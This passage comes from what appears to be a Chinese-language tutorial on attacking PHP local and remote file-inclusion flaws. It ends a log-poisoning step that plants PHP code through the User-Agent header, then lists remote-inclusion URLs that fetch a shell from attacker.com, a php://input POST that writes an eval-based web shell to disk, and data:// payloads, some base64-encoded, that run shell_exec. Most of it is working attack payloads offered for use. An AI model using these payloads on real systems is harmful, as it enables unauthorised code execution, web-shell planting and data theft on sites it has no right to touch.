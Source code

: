 不过发现get请求的uri是经过url编码的，这样是不能被识别为php代码解析执行的。我们修改ua为

```
&lt;?php phpinfo(); ?&gt;
```
再次访问
这时候ua里的php代码已记录到日志中去了，接下来包含日志就能执行php代码了。

# 远程文件包含
漏洞执行条件：

php.ini中下列两个选项开启

```
allow_url_fopen = On
allow_url_include = On
```

## 1) 直接远程包含
```
http://www.site.com/lfi.hpp?page=http://attacker.com/shell.txt
```
如果限定了后缀可以在后面加个?号，使后面的被解析为参数

```
http://www.site.com/lfi.hpp?page=http://attacker.com/shell.txt?
```

## 2) php://input
利用php封装协议php://input和data://，包含post数据造成php命令执行
```
POST /lfi.php?page=php://input&cmd=cd HTTP/1.1
Host: www.site.com
Content-Lenth: 39
```

 POST提交

```
 <?php fwrite(fopen("xxx.php","w"),'<?php eval($_POST["cmd"]);?>');?>
```

## 3) Data:text/plain
通过数据流包含php代码

```
http://www.site.com/lfi.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>

http://www.site.com/lfi.php?page=data:text/plain;base64,PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWydjbWQnXSk7Pz4=
```

```
include.php?file=data:text/plain,<?php show_source("index.php"); ?>

index.php?page=include.php?file=data:text/plain;base64,PD9waHAgc2hvd19zb3VyY2UoImluZGV4LnBocCIpOyA/Pg==
```
